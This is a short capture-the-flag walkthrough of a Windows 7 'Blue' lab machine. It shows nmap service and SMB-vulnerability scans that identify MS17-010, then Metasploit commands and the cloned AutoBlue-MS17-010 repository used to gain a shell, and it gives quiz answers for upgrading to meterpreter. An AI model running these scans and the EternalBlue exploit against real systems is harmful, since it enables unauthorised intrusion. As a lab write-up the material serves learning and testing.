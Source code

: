 ```yaml
---
description: 'OS: Windows'
---
```


# BLUE

**بسم الله الرحمن الرحيم**

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

### Recon

using Nmap&#x20;

```bash
nmap 10.10.55.229 -sV -sC 
```

How many ports are open with a port number under 1000?

```bash
sudo nmap 10.10.55.229 -p 1-1000  #Result = 3
```

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
sudo nmap 10.10.55.229 -sV  -p T:135,139,445 --script="smb-vuln-*"

```

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
**the OS windows VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)**
{% endhint %}

### Gain Access / initial Access

using MSF6

```bash
msfconsole
search ms17-010
use 0
options
set RhOSTS


```



<figure><img src="../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

My connection was cut off  there was a problem with vpn

&#x20;

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

but in my PC <mark style="color:red;">**FAIl**</mark>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;i will try search I Found exploit [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
git clone  https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/shellcode 
./shell_prep.sh
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)&#x20;

**`Answer`**` ``post/multi/manage/shell_to_meterpreter`

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Select this (use MODULE\_PATH). Show options, what option are we required to change?

**Answer** `session`\
